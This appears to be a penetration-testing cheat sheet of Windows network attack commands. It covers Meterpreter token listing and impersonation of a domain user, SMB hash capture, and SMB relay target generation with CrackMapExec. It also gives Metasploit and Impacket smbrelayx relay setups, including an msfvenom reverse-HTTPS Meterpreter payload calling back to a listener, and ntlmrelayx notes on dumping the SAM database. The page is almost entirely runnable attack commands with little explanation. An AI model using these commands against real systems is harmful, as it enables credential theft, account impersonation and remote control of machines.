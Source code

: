> RDP, SMB (Net Use), Interactive Logins and RunAS (not netonly though) leave tokens on the local machine.

{% highlight PowerShell %}
load incognito
list_tokens -u
impersonate_token MARVEL\\Troy.Wood
rev2self
use auxiliary/server/capture/smb
set johnpwfile /root/domainhashes
set rhost 10.50.1.99
{% endhighlight %}

## SMB Relay

a handy way of generating targets for smb relay

{% highlight PowerShell %}
cme smb 10.50.1.0/24 --gen-relay-list targets.txt
{% endhighlight %}

### Metasploit method

At time of writing, only NTLM 1 support

{% highlight PowerShell %}
use exploit/windows/smb/smb_relay
set SMBHOST 10.50.1.254
set PAYLOAD windows/meterpreter/bind_tcp
{% endhighlight %}

### SMBRelayx (Impacket)

{% highlight PowerShell %}
msfvenom -p windows/meterpreter/reverse_https LHOST=10.50.1.205 LPORT=1337 -f exe -o shell.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set lhost 10.50.1.205
set lport 1337
run
python smbrelayx.py -h 10.50.1.254 -e payload.exe
{% endhighlight %}

### ntlmrelayx (Impacket)

By default, ntlmrelayx will dump the SAM database unless you give it a command.

Generate Relay Targets

{% highlight PowerShell %}
cme smb <CIDR> --gen-relay-list targets.txt
{% endhighlight %}

nano /usr/share/responder/Responder.conf

